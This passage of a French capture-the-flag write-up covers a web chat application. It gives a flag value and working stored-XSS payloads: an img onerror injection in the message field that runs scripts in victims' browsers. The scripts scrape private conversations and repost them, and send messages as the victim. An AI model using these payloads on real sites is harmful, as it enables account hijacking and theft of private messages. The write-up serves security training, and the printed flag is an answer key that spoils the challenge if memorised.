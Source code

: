 ```javascript
if (document.querySelector('#header .name').innerText !== 'TestStudent1') {
    let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
```
(le code du flag 1 permet de trouver celui-ci)

### Flag 3

**Flag**: 042e401fe1c978f4

**Exploit**:    
Comme pour le flag 1, il y a une faille XSS dans le champ de saisie du message à envoyer. Nous avons également utilisé une image pour exploiter cette faille et injecter le code suivant.

```html
<img
  src="whatever"
  onerror="CODE_JAVASCRIPT"
/>
```

```javascript
const conversations = Array.from(document.getElementById('conversations-list').children);
const trumpConversations = conversations
    .filter(c => c.textContent.includes('Donald Trump'))
    .map(c => c.id.split('conversation')[1]);
trumpConversations.forEach(conversationId => {
    const requestOptions = {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ message: 'gimme the rest of the codes pls' })
    };
    fetch(`/conversation/${conversationId}`, requestOptions);
});
```

Il faut ensuite récupérer la conversation entre Donald et Elon (comme pour le flag 1).

```html
<img
  src="whatever"
  onerror="CODE_JAVASCRIPT"
/>
```

```javascript
if (document.querySelector('#header .name').innerText !== 'TestStudent1') {
    let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}
```
